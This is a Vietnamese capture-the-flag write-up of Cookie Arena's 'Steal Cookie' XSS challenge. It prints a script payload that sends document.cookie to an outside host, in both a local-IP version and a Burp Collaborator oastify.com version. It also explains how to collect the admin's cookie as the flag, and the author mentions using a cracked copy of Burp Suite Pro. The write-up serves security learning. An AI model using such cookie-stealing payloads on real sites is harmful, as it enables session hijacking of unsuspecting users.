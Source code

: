  ## CHALLENGE: STEAL COOKIE

 Lại là một challenge khá là hay đến từ Cookie Arena.

 <img src="img/img1.png">

 Ở phần mô tả cũng đã nói qua là web này dính XSS, và nhiệm vụ của chúng ta là sử dụng JS để tạo ra 1 payload ăn cắp cookie của admin rồi sau đó dán vào memo để lấy flag.

 Challenge này cũng không khó, chủ yếu là mọi người phải có 1 web or server để nó trả về cookie.
 Ở đây tui có đi crack Burp Suite bản Pro nên có ```Collaborator tab```. Đừng đi méc là tui crack, plssssss.

 <img src="img/img2.png">

 Khi vào flag chúng ta thấy 1 tham số trống, nên chắc là tham số chúng ta thêm vào để ông admin nhấn vào.
 Sau khi search google thì tui tìm được trang [github](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) nó có chứa payload để thực hiện.

 Tui chọn payload ni: ```<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>```

 Vì ren tui chọn payload nớ, vì ni theo tui nghĩ thôi, payload 1 sẽ sử dụng ở những phần comment có chứa xss, còn ở đây là URL nên chúng ta chỉ cần 1 dòng. Rứa thoi.

 Mở Burp pro lên, ở phía bên trái trên cùng mọi người chọn Burp -> Burp Collaborator Client, sau đó 1 cửa sổ sẽ hiện lên.

<img src="img/img3.png">

<img src="img/img4.png">

Mọi người chọn ```Copy to Clipboard```, nó sẽ lưu 1 sub-collaborator cho mình. Và mọi người dán vào payload ở trên, nhớ là không xóa ```http://``` nghe.
Nó sẽ ra như này ```<script>var i=new Image;i.src="http://xnoktznp673dvn9oge1rpoe79yfo3d.oastify.com/?"+document.cookie;</script>```

Rồi dán payload vào trang thôi.


Sau khi dán vào thì mọi người sẽ có 1 pop-up hiện ra. Nhưng không cần quan tâm lắm.
Mọi người mở lại tab ```Collaborator Client``` của Burp Suite, và sẽ thầy kết quả, chúng ta chú ý đến type HTTP thay vì DNS.
Nếu không có kết quả thì nhấn ```Poll now``` hoặc kiểm tra lại payload.
Click vào type HTTP và chuyển sang mục ```Request to Collaborator``` và flag xuất hiện.

<img src="img/img6.png">

And done the challenge.

## THANK YOU FOR LEARNING GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY, LUV U <3
